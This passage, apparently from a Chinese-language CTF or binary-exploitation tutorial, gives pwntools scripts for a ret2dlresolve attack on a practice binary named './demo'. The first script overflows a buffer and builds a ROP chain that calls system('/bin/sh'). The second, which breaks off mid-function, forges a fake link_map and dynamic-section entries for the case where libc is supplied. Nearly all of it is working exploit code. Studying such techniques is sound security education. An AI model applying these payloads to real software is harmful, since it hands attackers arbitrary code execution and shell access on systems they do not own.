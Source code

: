 64位

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug', terminal=['tmux', 'splitw', '-h', '-p', '80'])
p   = process("./demo")
elf = ELF("./demo")
rop = ROP("./demo")

# gdb.attach(p)
dl = Ret2dlresolvePayload(elf, symbol = "system", args = ["/bin/sh"])
rop.read(0, dl.data_addr)
rop.ret2dlresolve(dl)

p.send((b'a' * (4 + 8) + rop.chain()).ljust(0x100, b'\x00'))
p.send(dl.payload)

p.interactive()
```

在提供libc情况下的攻击:

```python
from pwn import *
context(arch='amd64', os='linux', terminal=['tmux', 'splitw', '-h', '-p', '80'])
p = process('./demo')
elf = ELF('./demo')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

pop_rdi = 0x40117E
pop_rsi = 0x401180
pop_rdx = 0x401182

def ret2dlreslove(elf, libc, fun_name, target_addr = elf.bss() + 0x100, got_first_fun_name = list(elf.got.keys())[-1]):
    '''
        elf: elf文件
        libc: libc文件
        fun_name: 需要调用的函数名
        target_addr: 写入伪造数据的地址
        got_first_fun_name: got表中的第一个函数名
        return: payload数据, ret2call数据
        
        攻击: 先将payload写入target_addr处, 然后直接ret2call即可调用目标函数, 可以提前设置寄存器
        注意: got_first_fun_name的got表-3的地址的值不能为0
    '''
    got         = elf.got[got_first_fun_name]
    dl          = elf.get_section_by_name('.plt').header.sh_addr + 6
    offset      = libc.symbols[fun_name] - libc.symbols[got_first_fun_name]
    l_addr      = offset
    if l_addr < 0:
        l_addr = l_addr + 0x10000000000000000

    # 伪造link_map
    payload = b''
    payload += p64(l_addr)
    
    # 伪造各个节
    payload += p64(6) + p64(got - 0x8 - 0x18)                  # DT_SYMTAB
    payload += p64(0x17) + p64(target_addr + 0x8 * 5)          # JMPREL
    payload += p64(got - offset) + p64(0x100000007) + p64(0)   # Elf64_Rel
    
    # 继续伪造link_map
    payload = payload.ljust(0x68, b'\x00')
    payload += p64(target_addr)                                 # 指向字符串表，只需要可读即可
```